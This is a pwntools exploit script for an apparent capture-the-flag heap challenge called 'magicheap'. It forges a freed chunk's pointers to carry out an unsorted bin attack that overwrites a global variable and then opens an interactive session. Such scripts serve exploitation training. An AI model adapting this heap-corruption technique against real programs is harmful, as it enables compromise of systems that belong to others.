 ```Python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

r = process('./magicheap')


def create_heap(size, content):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)


def edit_heap(idx, size, content):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(idx))
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)


def del_heap(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))


create_heap(0x20, "dada")  # 0
create_heap(0x80, "dada")  # 1
# in order not to merge into top chunk
create_heap(0x20, "dada")  # 2

del_heap(1)

magic = 0x6020c0
fd = 0
bk = magic - 0x10

edit_heap(0, 0x20 + 0x20, "a" * 0x20 + p64(0) + p64(0x91) + p64(fd) + p64(bk))
create_heap(0x80, "dada")  #trigger unsorted bin attack
r.recvuntil(":")
r.sendline("4869")
r.interactive()

```

